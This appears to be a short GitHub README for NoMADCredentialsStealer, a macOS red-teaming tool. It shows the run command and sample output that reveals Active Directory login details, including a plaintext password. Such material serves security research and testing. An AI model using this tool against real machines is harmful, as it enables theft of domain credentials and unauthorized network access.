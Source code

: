 ### NoMADCredentialsStealer
https://wojciechregula.blog/post/macos-red-teaming-get-ad-credentials-from-nomad/

### Usage

$ ./NoMADCredentialsStealer.app/Contents/MacOS/NoMADCredentialsStealer
$
+-------------------------------+
+   NoMAD Credentials Stealer   +
+  by Wojciech Regula (_r3ggi)  +
+-------------------------------+
+> Domain -> wojciechregula.blog
+> Domain controller -> controller.wojciechregula.blog
+> Kerberos realm -> WOJCIECHREGULA.BLOG
+> AD login -> wregula@WOJCIECHREGULA.BLOG
+> AD password -> Passw0rd
